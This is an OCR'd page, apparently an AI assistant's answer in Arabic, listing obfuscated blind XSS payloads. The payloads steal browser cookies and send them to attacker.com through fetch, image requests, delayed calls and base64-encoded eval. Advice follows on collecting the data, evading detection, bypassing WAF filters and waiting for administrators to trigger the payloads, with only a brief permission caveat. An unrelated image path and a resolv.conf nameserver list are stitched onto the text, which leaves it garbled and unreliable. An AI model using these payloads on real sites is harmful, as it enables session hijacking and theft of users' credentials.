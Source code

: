 5. حقن مع التعتيم:
- <script>fetch('http://attacker.com/log?c='+btoa(document.cookie))</script>: يرسل ملفات تعريف الارتباط مشفرة بـ Base64.
- <script>eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk='))</script>: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <script>new Image().src='http://attacker.com/log?c='+(document['cookie'].split('').reverse().join(''))</script>: يعكس ملفات تعريف الارتباط.
- <script>setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)</script>: يؤخر إرسال البيانات.
- <img src=x onerror=eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrZG9jdW1lbnQuY29va2ll'))>: يفك تشفير Base64 عند فشل الصورة.



---

**نصائح إضافية**:
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو خدمات مثل `ngrok` لتسجيل البيانات بسهولة، وتأكد من أن الخادم يدعم طلبات GET وPOST.
- **تجنب الكشف**: تجنب استخدام تنبيهات أو تغييرات بصرية (مثل `alert` أو `document.body.innerHTML`) للحفاظ على التخفي.
- **اختبار النقاط**: جرب نقاط إدخال متعددة (مثل التعليقات، رسائل الدعم، أو سجلات الأخطاء) لزيادة احتمالية التنفيذ.
- **التعتيم**: استخدم تشفير Base64، تقسيم الشيفرة، أو تأخير التنفيذ لتجاوز فلاتر الإدخال أو أنظمة WAF.
- **الأدوات**: استخدم أدوات مثل **XSStrike**، **Burp Suite**، أو **XSS Hunter** لتحديد نقاط إدخال Blind XSS ومراقبة الاستجابات.
- **الصبر**: قد يستغرق الأمر وقتًا حتى يراجع المشرف البيانات، لذا راقب خادمك لعدة أيام.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Stored XSS Payloads" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل Blind XSS في تطبيقات معينة)، أخبرني وسأقدم ردًا مخصصًا!



 Generated by NetworkManager nameserver 208.67.222.123 nameserver 208.67.220.123 nameserver 163.121.128.134 # NOTE: the libc resolver may not support more than 3 nameservers. # The nameservers listed below may not be recognized. nameserver 163.121.128.135 nameserver 192.168.1.1